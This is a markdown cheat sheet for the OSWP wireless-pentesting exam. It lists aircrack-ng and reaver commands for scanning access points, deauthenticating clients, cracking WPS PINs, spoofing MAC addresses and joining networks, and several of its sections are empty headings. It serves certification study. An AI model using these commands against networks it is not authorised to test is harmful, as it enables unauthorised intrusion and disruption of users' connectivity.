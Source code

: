 # OSWP cheat sheets

This cheat sheet based on "WiFi Hacking Mind Map - v1.0 by Jérémy Brun-Nouvion (https://github.com/koutto)"

## Monitoring
### Find all AP and connected devices
```
airodump-ng <interface> --wps --manufacturer --uptime --band <band>
```

### Monitor target AP
```
airodump-ng <interface> --wps --manufacturer --uptime --band <band> -c <channel> --bssid <bssid> -w res
```
### Unhide ESSID
Set channel
```
iwconfig wlan0 channel <channel>
```
Catch beacon with ESSID
```
aireplay-ng -0 <deauth number> -a <AP MAC> <interface> 
aireplay-ng -0 <deauth number> -a <AP MAC> -c <Client MAC> <interface> #Some clients ignore broadcast deauthentications. If this is the case, you will need to send a deauthentication directed at the particular client.
```


## WEP attack


## WPS attack
**Dependencies:** reaver

_Some APs have protections. AP might have PIN timeout after a series of failures. These APs then require either a timeout or a reset to remove the lock._

### Custom PIN association 
 
### Pixie Dust attack 
```
 reaver -i <interface> -b <AP_MAC> -K
```
 
### Bruteforce PIN attack 
```
sudo reaver -i <interface> -b <AP_MAC>
```
 
### Known PINs attack
```
reaver -i <interface> -b <AP_MAC> -p <PIN>
```
 
### Null PIN attack 
_Only a very few APs are vulnerable to this attack_
```
reaver -i <interface> -b <AP_MAC> -p "" -N
```

## WPA attack


## WPA Enterprise



## Connect to AP

### Open
```
iw <interface> connect <ESSID>
dhclient <interface>
```

### WEP
```
iw <interface> connect <ESSID> key 0:<key>
dhclient <interface>
```

### WPA2

Dependencies: wpasupplicant
```

wpa_passphrase "<ESSID>" <key> | sudo tee /etc/wpa_supplicant.conf
wpa_supplicant -B -c /etc/wpa_supplicant.conf -i <interface>
dhclient <interface>
```

### WPA enterprise

```
sudo dhclient <interface>
```

## Other
### MAC-spoofing
```
ip link set dev <interface> down
ip link set dev <interface> address <XX:XX:XX:XX:XX:XX>
ip link set dev <interface> up
```
### Prepare Attacker PC (Monitor mode)
```
airmon-ng check kill
airmon-ng start <interface>
```
### Back to normal modee (Managed mode)
```
airmon-ng stop <Monitor interface>
systemctl start wpa_supplicant
systemctl start NetworkManager
```
